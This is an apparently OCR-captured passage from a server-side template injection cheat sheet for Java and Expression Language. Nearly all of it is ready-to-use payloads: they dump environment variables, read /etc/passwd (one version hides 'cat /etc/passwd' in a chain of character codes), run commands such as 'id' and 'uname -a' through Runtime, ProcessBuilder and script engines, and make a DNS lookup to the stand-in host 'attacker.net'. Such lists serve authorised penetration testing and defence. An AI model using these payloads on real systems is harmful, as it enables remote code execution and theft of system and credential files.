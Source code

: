 #### Retrieve the system's environment variables

```java
${T(java.lang.System).getenv()}
```

#### Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

#### Custom commands

[SSTI Payload Generator](https://github.com/VikasVarshney/ssti-payload)

#### EL (Expression Language)

JVM System Property Lookup

```java
${"".getClass().forName("java.lang.System").getDeclaredMethod("getProperty","".getClass()).invoke("","java.class.path")}
```

DNS Lookup

```java
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","attacker.net")}
```

Command execution

```java
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('id')

''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance('id').start()

${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("id")}

${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"uname -a\\\")"))}

${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"uname\\\",\\\"-a\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
```
